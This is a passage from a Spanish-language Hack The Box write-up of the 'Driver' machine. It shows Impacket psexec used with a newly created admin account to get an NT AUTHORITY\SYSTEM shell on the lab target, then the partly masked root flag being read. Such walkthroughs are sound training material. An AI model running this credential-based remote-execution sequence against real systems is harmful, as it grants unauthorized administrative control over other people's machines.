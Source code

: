 Vale, se supone que se hemos creado un usuario administrador. Probemos a ver si podemos conectarnos con `psexec`:

```bash
┌──[z3r0byte@z3r0byte]─[~/CTF/HTB/Driver]
└──╼ $ sudo psexec.py 'z3r0:zero123$!@10.10.11.106'
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 10.10.11.106.....
[*] Found writable share ADMIN$
[*] Uploading file XvxgLeIz.exe
[*] Opening SVCManager on 10.10.11.106.....
[*] Creating service YnlZ on 10.10.11.106.....
[*] Starting service YnlZ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
¡Conseguimos escalar privilegios a usuario administrador!

Una vez en este punto, podremos visualizar la flag `root.txt` en `C:\Users\Administrator\Desktop\root.txt`:

```bat
C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
d0728609099971XXXXXXXXXXXXXXXXX
```
